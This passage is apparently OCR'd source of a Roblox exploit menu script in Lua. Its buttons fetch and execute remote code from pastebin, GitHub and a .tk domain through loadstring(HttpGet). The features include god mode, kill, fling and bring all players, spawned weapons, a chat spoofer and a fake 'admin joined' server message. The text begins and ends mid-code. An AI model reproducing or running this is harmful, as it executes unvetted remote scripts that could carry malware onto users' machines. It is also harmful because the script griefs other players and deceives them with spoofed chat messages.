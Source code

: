 loadstring(game:HttpGet("https://raw.githubusercontent.com/fatesc/fates-admin/main/main.lua"))()
end)
ss:Button("God Mode",function()
loadstring(game:HttpGet("https://pastebin.com/raw/FwfNEqYz", true))()
end)
ss:Button("Invisible God Mode",function()
loadstring(game:HttpGet("https://pastebin.com/raw/HMcCQbpk", true))()
end)
ss:Button("Roblox Studio Editor",function()
loadstring(game:HttpGet("https://raw.githubusercontent.com/TrixAde/scripts/main/DarkDexV3.lua"))();
end)
local ss = s:Tab("Trolling")
ss:Label("- -All Players- -")
ss:Button("Kill All",function()
    loadstring(game:HttpGet('https://raw.githubusercontent.com/DigitalityScripts/roblox-scripts/main/Kill%20All'))()
end)
ss:Button("Fling All",function()
    loadstring(game:HttpGet('https://github.com/DigitalityScripts/roblox-scripts/raw/main/loop%20fling%20all'))()
end)
ss:Button("Noclip fling All",function()
    Target = "name" -- target name, can be shortened
flinghh = 1000 -- what to set your hipheight to while flinging
loadstring(game:HttpGet("https://xn--9p9haaaaaa.tk/scripts/CarpetFling.lua"))()
end)
ss:Button("Bring All",function()
    loadstring(game:HttpGet('https://raw.githubusercontent.com/DigitalityScripts/roblox-scripts/main/Bring%20All'))()
end)
ss:Label("- -Guns- -")
ss:Button("Pistol",function()
    loadstring(game:HttpGet("https://pastebin.com/raw/SeRxrgci", true))()
end)
ss:Button("AK-47",function()
    game:GetObjects("rbxassetid://149948769")[1].Parent=game.Players.LocalPlayer.Backpack
end)
ss:Button("Telekinisis Gun (Press C)",function()
    loadstring(game:HttpGet("https://pastebin.com/raw/fauftxLe", true))()
end)
ss:Label("- -Swords- -")
ss:Button("Huge Sword",function()
    game:GetObjects("rbxassetid://169934427")[1].Parent=game.Players.LocalPlayer.Backpack
end)
ss:Button("6 Swords",function()
    loadstring(game:HttpGet("https://pastebin.com/raw/80juE2kw", true))()
end)
ss:Button("Purple Swords",function()
    loadstring(game:HttpGet("https://pastebin.com/raw/80juE2kw", true))()
end)
ss:Label("- -Chat- -")
ss:Button("Chat Spoofer",function()
    loadstring(game:HttpGet(('https://pastebin.com/raw/djBfk8Li'),true))()
end)
ss:Button("Server Message",function()
    player =  "Server"
fakemsg = "Welcome Admin (c00lkidd) joined"
message = "Hi                                                                                                                                                            ["..tostring(player).."]: "..tostring(fakemsg)
game:GetService("ReplicatedStorage").DefaultChatSystemChatEvents.SayMessageRequest:FireServer(message, "All")
end)
ss:Button("Insult Bypass",function()